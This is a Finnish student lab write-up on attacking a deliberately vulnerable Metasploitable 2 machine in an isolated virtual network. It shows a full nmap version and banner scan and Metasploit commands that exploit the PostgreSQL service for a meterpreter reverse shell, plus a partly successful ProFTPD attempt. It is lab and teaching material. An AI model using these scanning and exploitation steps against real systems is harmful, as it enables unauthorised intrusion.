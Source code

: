 # h2
## a) Metasploitable 2 asennus

Asensin Metasploitable 2:n virtuaalikoneeseen. Loin Virtualboxissa yhteisen virtuaaliverkon Kali Linuxia pyörittävää virtuaalikonetta ja Metasploitablea varten.

![](./img/1.png)

Tämän jälkeen kytkin molemmat virtuaalikoneet luomaani virtuaaliverkkoon.

![](./img/2.png)

Käynnistin molemmat virtuaalikoneet, ja siirryin tarkistamaan että koneilla ei ole yhteyttä ulkoverkkoon.

Kali linuxilla oli käytössä myös ulkoverkkoon yhdistyvä verkkokortti (eth0), joten se piti ottaa pois käytöstä. Jätin käyttöön vain verkkokortin nimeltä eth1, joka oli yhdistety ainoastaan pystyttämääni virtuaaliverkkoon.

![](./img/kali_verkot.png)

Tämän jälkeen tarkistin että Metasploitable 2 -kone oli samassa verkossa Kalin kanssa.

![](./img/mt_verkot.png)

...ja varmistin että kone on todellakin suljettu ulkoverkosta pingaamalla Googlen nimipalvelinta.

![](./img/mt_tsekkaus.png)

## b) Metasploitable 2:n skannaus

Koska tiesin jo Metasploitable 2 -koneeni ip-osoitteen, en ruvennut skannaaman lähiverkkoa sen enempää. 
Siirryin suoraan Metasploitable 2 -koneen porttien skannaukseen Kali Linuxissa. 

Käynnistin Metasploitin komennolla `sudo msfdb run`. Olin jo aikaisemmin luonut tietokannan Metasploitille, joten sitä ei tarvinnut enää tehdä.

Aloitin porttiskannauksen nmapilla. Annoin nmapille argumentiksi `-sV`, joka pyrkii löytämään avoimessa portissa asustavan palvelun version. Käytin myös argumenttia `--script=banner`, joka on nmapin oma yksinkertainen banner grabber -scripti. Banner grabber -scripti yhdistää avoimeen porttiin ja kuuntelee sen vastausta oletusasetuksella 5 sekuntia.
```
exec: nmap -sV --script=banner 192.168.56.101

Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-05 16:10 EDT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.101
Host is up (0.00028s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_banner: 220 (vsFTPd 2.3.4)
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
|_banner: SSH-2.0-OpenSSH_4.7p1 Debian-8ubuntu1
23/tcp   open  telnet      Linux telnetd
|_banner: \xFF\xFD\x18\xFF\xFD \xFF\xFD#\xFF\xFD'
25/tcp   open  smtp        Postfix smtpd
|_banner: 220 metasploitable.localdomain ESMTP Postfix (Ubuntu)
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
|_http-server-header: Apache/2.2.8 (Ubuntu) DAV/2
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/udp   nfs
|   100005  1,2,3      38934/udp   mountd
|   100005  1,2,3      56689/tcp   mountd
|   100021  1,3,4      44024/tcp   nlockmgr
|   100021  1,3,4      44754/udp   nlockmgr
|   100024  1          40622/tcp   status
|_  100024  1          45526/udp   status
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
|_banner: \x01Where are you?
513/tcp  open  login       OpenBSD or Solaris rlogind
514/tcp  open  shell       Netkit rshd
|_banner: \x01getnameinfo: Temporary failure in name resolution
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
|_banner: root@metasploitable:/#
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
|_banner: 220 ProFTPD 1.3.1 Server (Debian) [::ffff:192.168.56.101]
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
| banner: >\x00\x00\x00\x0A5.0.51a-3ubuntu5\x00\x08\x00\x00\x00gYdnz=\9\x
|_00,\xAA\x08\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\...
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
|_banner: RFB 003.003
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
| banner: :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostna
|_me...\x0D\x0A:irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resol...
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
MAC Address: 08:00:27:B8:B5:91 (Oracle VirtualBox virtual NIC)
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.93 seconds
```

Koska Metasploitable 2 on haavoittuvaksi rakennettu alusta, siihen on asennettu monia palveluita, jotka näkyvät porttiskannauksessa. Kaikista porteista saamme selville palvelun nimen ja version, sekä banner grabin tuloksen. Banner sisältää yleisesti portissa majailevan palvelun nimen ja version. Palveluiden versiotieto on erityisen tärkeää, sillä sen perusteella voimme etsiä Internetistä haavoittuvuuksia ja kohdistaa hyökkäyksemme versiokohtaista haavoittuvuutta vastaan. 

Haluan tallentaa skannauksen tulokset Metasploitin tietokantaan, ja luon sitä varten itselleni workspacen eli työtilan Metasploitiin. Tämä tapahtuu Metasploitin konsolissa komennolla `workspace -a {workspacen nimi}`. Komento `workspace` näyttää käytettävissä olevat ja käytössä olevan työtilan. 
![](./img/mt_workspace.png)

Tallennan nmap-tulokset kantaan komennolla `db_nmap {ip-osoite}`. Ohjelma skannaa kohdekoneen uudestaan ja tallentaa tulokset tietokantaan.
![](./img/db_nmap.png)


Skannauksen tulokset ovat nyt helposti saatavilla esimerkiksi komennolla `services` joka listaa kaikki skannauksen tuloksena saadut avoimet palvelut.
![](./img/mt_services_kannassa.png)


## c) Metasploitable 2:n murtautuminen: PostgreSQL

Valitsin ensimäiseksi hyökkäyskohteekseni Metasploitablen PostgreSQL-palvelun. Valitsin kyseisen tietokantapalvelun siksi, että olen työelämässä hallinnoinut PostgreSQL-tietokantoja mutta en ole koskaan kohdannut yhtäkään murtautumisyritystä tätä palvelua kohtaan.

Metasploitablessa on valmiina tietokanta hyökkäyksistä, joita ohjelmassa on helppo käyttää. Komento `search` etsii Metsaploitin tietokannasta vapaasanahaulla hyökkäyksiä. 
![](./img/mt_search_possu.png)

Valitseni hyökkäykseksi 11: `exploit/linux/postgres/postgres_payload`. Löysin kuvauksen hyökkäyksestä täältä: https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/linux/postgres/postgres_payload

Hyökkäys mahdollistaa ulkopuolisen koodin suorittamisen, ja tätä kautta mahdollisesti suoran yhteyden palvelimen komentotulkkiin.

Otan em. exploitin käyttöön komennolla `use {exploitin nimi}`
![](./img/possu_use.png)

Kun hyökkäys on alustettu, komento `show payloads` näyttää kaikki exploitiin soveltuvat payloadit.

Komento `options` näyttää exploittikohtaiset asetukset. Asetuksista selviää, että käytössä on payload nimeltään `linux/x86/meterpreter/reverse_tcp`. 
![](./img/possu_options.png)

Seuraavaksi asetan Metasploitable 2 -koneen kohteeksi hyökkäyksellemme. Tämä tapahtuu komennolla `set RHOSTS {kohde}`

![](./img/possu_setr.png)

Tämän jälkeen voin aloittaa hyökkäyksen. Tämä tapahtuu komennolla `exploit`.

![](./img/mt_possu_success.png)

Hyökkäys onnistuu, ja saan hallintaani komentotulkin kohdekoneella. Pääsen lukemaan tiedostoja ja navigoimaan tiedostojärjestelmässä.

## d) Metasploitable 2:n murtautuminen: ProFTPD

Seuraavaksi päätin kokeilla palvelimen ProFTPD -palveluun murtautumista. Noudatin samaa kaavaa hyökkäyksen alustamisessa kuin edellisessä, mutta unohdin tarkastaa exploitin asetuksista sopivan payloadin. 
![](./img/mt_ftp_payload%20puuttu.png)

Kokeilin muutamaa eri payloadia, mutta hyökkäys ei onnistunut.
![](./img/mt_ftp_payload_tryhard.png)

Viimein sain yhteyden auki, mutta se kaatui miltei heti aukeamisen jälkeen. Sain kirjoitettua kuitenkin kirjoitettua tiedoston, joka näkyi Metasploitable 2 -koneen juuressa.

![](./img/mt_terkut.png)



## Lähteet:

-https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/linux/postgres/postgres_payload

-https://nmap.org/nsedoc/scripts/banner.html

-https://nmap.org/book/man-port-scanning-techniques.html

-https://nmap.org/book/man-version-detection.html

-https://www.geeksforgeeks.org/what-is-banner-grabbing/
